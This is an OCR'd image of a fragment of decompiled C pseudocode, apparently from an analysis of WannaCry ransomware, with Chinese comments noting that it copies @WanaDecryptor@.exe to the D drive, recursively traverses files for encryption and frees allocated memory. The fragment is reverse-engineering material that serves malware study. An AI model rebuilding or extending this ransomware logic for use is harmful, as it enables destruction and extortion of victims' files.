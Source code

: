 ```c

CopyWanaDecryptor(Format);              // 将@WanaDecryptor@.exe拷贝到D盘  

}  

v18 = v30;  

if ( a5 )  

{  

v19 = *(_DWORD )v30;  

if ( *(void )v30 != v30 )  

{  

v20 = v14 + 1;  

do  

{  

v21 = (wchar_t *)v19[3];  

if ( !v21 )  

v21 = (wchar_t *)`std::basic_string<unsigned short,std::char_traits<unsigned short>,std::allocator<unsigned short>>::_Nullstr'::`2'::_C;  

TraverseAndEncryptFiles((_DWORD *)v35, v21, a3, v20, a5);// 递归遍历文件  

v19 = (_DWORD *)*v19;  

v18 = v30;  

}  

while ( v19 != v30 );  

}  

}  

v22 = v18;  

LOBYTE(v49) = 0;  

v23 = (_DWORD *)*v18;  

if ( (_DWORD *)*v18 != v18 )  

{  

do  

{  

v24 = v23;  

v23 = (_DWORD *)*v23;  

DeleteAllocMem(&v29, (int)&v36, v24);   // 释放所有申请的空间  
```